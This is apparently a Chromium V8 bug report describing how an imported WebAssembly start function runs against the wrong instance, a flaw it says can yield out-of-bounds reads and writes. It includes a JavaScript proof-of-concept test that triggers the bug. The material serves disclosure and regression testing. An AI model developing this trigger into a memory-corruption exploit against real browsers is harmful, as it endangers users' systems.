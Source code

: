 Here, we create the start function as JS-to-wasm wrapper with the instance which is currently being built:
https://cs.chromium.org/chromium/src/v8/src/wasm/module-compiler.cc?q=module-compiler.cc&sq=package:chromium&dr&l=1836

If the start function is an exported function of another wasm instance, we should use that instance instead. Otherwise, we execute code of module X on an instance of module Y.
This can easily be used to construct OOB reads and writes.


Reproducer: 

=================================================================================
load('test/mjsunit/wasm/wasm-constants.js');
load('test/mjsunit/wasm/wasm-module-builder.js');

(function testImportedStartFunctionUsesRightInstance() {
  print(arguments.callee.name);
  var global = 0;
  const set_global = n => global = n;
  const exp = (function() {
    const builder = new WasmModuleBuilder();
    builder.addMemory(1, 1);
    builder.exportMemoryAs('mem');
    const imp_index = builder.addImport('q', 'imp', kSig_v_i);
    builder.addFunction('f', kSig_v_v)
        .addBody([kExprI32Const, 11, kExprI32Const, 0, kExprI32StoreMem, 0, 0])
        .exportFunc();
    return builder.instantiate({q: {imp: set_global}}).exports;
  })();

  const builder = new WasmModuleBuilder();
  const imp_index = builder.addImport('q', 'imp', kSig_v_v);
  builder.addStart(imp_index);
  const module = builder.toModule();

  assertEquals(0, new Uint32Array(exp.mem.buffer)[0], 'memory initially 0');
  new WebAssembly.Instance(module, {q: {imp: exp.f}});
  assertEquals(11, new Uint32Array(exp.mem.buffer)[0], 'memory changed to 11');
})();
=================================================================================
